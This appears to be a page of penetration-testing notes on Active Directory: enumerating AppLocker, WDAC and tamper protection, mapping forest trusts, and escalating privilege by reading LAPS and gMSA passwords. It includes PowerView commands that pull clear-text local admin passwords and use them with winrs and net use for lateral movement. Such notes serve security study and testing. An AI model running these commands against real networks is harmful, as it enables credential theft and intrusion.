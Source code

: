 ## AppLocker, WDAC, and Tamper Protection

- can enumerate AppLocker rules with `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
- can enumerate WDAC with `Get-CimInstance -ClassName Win32_DeviceGuard -Namespace
root\Microsoft\Windows\DeviceGuard`
- check tamper protection with `Get-MpComputerStatus|select IsTamperProtected`
    - note tamper protection is on by default on Windows Server 2019, 2022, and 1803 or later among other servers

## Misc

- use `Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name` to map all trusts of current forest
- use `(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}` to map all external trusts
    - can be done also with PowerView’s `Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}`

# Domain Privilege Escalation

## LAPS

Provides centralized storage of local user passwords and periodically rotates passwords. Helps mitigate lateral movement by stopping reuse of passwords. 

- check if `ms-mcs-admpwd` attribute is visible with `Get-DomainComputer | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}`
- can also use `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($.ActiveDirect
oryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $.SecurityIdentifier);$}` from PowerView to find OUs where LAPS is in use
- use ADModule’s `Get-ADComputer -Identity 0xd4y_machine -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd` or PowerView’s `Get-DomainObject -Identity 0xd4y_machine | select -ExpandProperty ms-mcs-admpwd` to get clear-text password of `ms-mcs-admpwd` attribute

With the creds, you can then do:

```powershell
winrs -r:0xd4y-machine -u:.\Administrator -p:'$ubscr1beTo0xd4y' hostname 
net use x: \\0xd4y-machine\C$\Users\Public /user:notes\Administrator '$ubscr1beTo0xd4y'

## Then copy the files you need (e.g. NetLoader), perform port-forwarding, and load whatever you want
```

## gMSA

- provides password management, password rotation (every 30 days), and management of SPNs and delegated administration for service accounts
- helps protect against Kerberoast attacks
- can potentially read the gMSA password from the `msds-ManagedPassword` attribute (stored in binary form of MSDS-MANAGEDPASSWORD_BLOB)
    - must be explicitly allowed to do so (not even Domain Admins can read this by default)
